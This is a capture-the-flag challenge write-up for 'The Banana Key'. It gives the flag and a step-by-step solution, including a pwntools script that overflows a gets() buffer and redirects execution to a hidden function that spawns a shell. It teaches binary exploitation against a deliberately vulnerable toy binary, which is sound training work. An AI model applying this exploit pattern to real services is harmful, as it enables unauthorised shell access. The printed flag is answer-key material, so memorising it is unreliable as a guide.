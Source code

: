 # The Banana Key

Author: Kai

Date Created/Modified: 21/08/2022

Flag: GRU22{iLoveBob#@GruLoveMe}

## Description
The long-awaited Banana System v1.0 has finally been released and deployed on a server, and Bob, the lead developer, is proud of it! Though, he's getting a bit ahead of himself, as he crowns the Banana System to be the most secure system in the entire universe!

Far-fetched? You bet! That's why Kevin is gonna break in and steal the secret key to Bob's banana vault stored on the server, help poor Kevin out!

## Hints
1. What do buffer and buffet have in common? They overflow!
2. Hmm, the alignment seems off... 

## Distribution
These are the files that will be sent to the participants
- TheBananaKey
    - SHA1: `81439FEF6C505E1103F6775FF6F3C9B298FEA295`

## Solution
1. Use checksec to check the protection for the binary file, which shows that PIE is not enabled making it way easier to hard-code the address of a function, as address is not randomized.
2. Run the elf executable, and user will be prompted to input name and password. Spam 16 or more characters and there will be a segmentation fault. This shows that there may be a potential buffer overflow vulnerability. Trial and error to find out the exact offset with the help of dmesg, the offset will be exactly 16 characters.
3. May use Ghidra to decompile the binary file and view the functions. In banana(), the insecure gets() method is used to obtain user input, which makes buffer overflow more likely.
4. Examine the source code and there will be a secret function, WINbeedo() which will spawn a shell, as seen from `system("/bin/sh)`. Hence, this is the target for exploitation, to gain access to the server and obtain the flag.
5. Use readelf with the `-s` option to obtain the addresses of the functions. Locate the address of the secret function, `0x0000000000401323`.
6. Craft a payload with your language of choice, Python will be used here for simplicity:
```Python
from pwn import *

# May use this to test locally
#p = process("./TheBananaKey")

#elf = ELF('./TheBananaKey')

#p = elf.process()

p = remote("127.0.0.1", 1024) # Connect to remote server

print(p.recvline()) # Print output from server

func_addr = 0x401323 # address for secret function, WINbeedo
return_main_addr = 0x401379 # address for the ret of main address

# payload = offset_char + return_address_to_main + secret_func_address
payload = b'A' * 16 + p64(return_main_addr) + p64(func_addr) 

p.sendline(payload)
print(payload)
p.interactive()
```
7. There is a need for stack alignment due to the 16 byte stack boundary, this can be achieved through supplying the return address of the main function in between the padding (the 16 characters) and the address of the secret function (the overflow). Otherwise, a shell will not be spawned as the program crashes prematurely with a `Got EOF while reading in interactive remote` prompt from Pwntools.
8. Execute the python script to gain access to the shell. From there, simply `cat flag` to obtain the flag.

### References
https://www.youtube.com/watch?v=vqNQe9xjz2Q
https://github.com/LiveOverflow/pwn_docker_example/blob/master/challenge/system_health_check.c
https://www.youtube.com/watch?v=YVlTDPhTA9U
